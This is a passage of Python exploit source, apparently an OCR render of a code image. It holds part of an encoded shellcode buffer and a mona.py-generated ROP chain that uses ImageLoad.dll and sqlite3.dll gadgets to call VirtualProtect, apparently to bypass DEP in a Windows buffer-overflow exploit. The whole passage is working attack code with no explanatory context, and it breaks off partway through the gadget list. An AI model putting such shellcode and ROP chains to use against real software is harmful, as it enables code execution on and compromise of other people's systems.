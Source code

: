 ```python
Shellcode4 += "\x35\x31\x55\x33\x62\x4b\x32\x4c\x50\x61\x32"
Shellcode4 += "\x42\x51\x63\x37\x50\x56\x4f\x53\x71\x50\x44"
Shellcode4 += "\x50\x44\x43\x30\x41\x41"


def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        # 0x00000000,  # [-] Unable to find gadget to put 00000201 into ebx
        0x10015442,  # POP EAX # RETN [ImageLoad.dll]
        0xFFFFFDFE,  # -202
        0x100231d1,  # NEG EAX # RETN [ImageLoad.dll]
        0x1001da09,  # ADD EBX,EAX # MOV EAX,DWORD PTR SS:[ESP+C] # INC DWORD PTR DS:[EAX] # RETN [ImageLoad.dll]|   {PAGE_EXECUTE_READ}
        0x1001a858,  # RETN (ROP NOP) [ImageLoad.dll]
        0x1001a858,  # RETN (ROP NOP) [ImageLoad.dll]
        0x10015442,  # POP EAX # RETN [ImageLoad.dll]
        0x1004de84,  # &Writable location [ImageLoad.dll]
        0x10015442,  # POP EAX # RETN [ImageLoad.dll]
        0x61c832d0,  # ptr to &VirtualProtect() [IAT sqlite3.dll]
        0x1002248c,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ImageLoad.dll]
        0x61c0a798,  # XCHG EAX,EDI # RETN [sqlite3.dll]
        0x1001d626,  # XOR ESI,ESI # RETN [ImageLoad.dll]
        0x10021a3e,  # ADD ESI,EDI # RETN 0x00 [ImageLoad.dll]
        0x100218f9,  # POP EBP # RETN [ImageLoad.dll]
        0x61c24169,  # & push esp # ret  [sqlite3.dll]
        0x10022c4c,  # XOR EDX,EDX # RETN [ImageLoad.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
```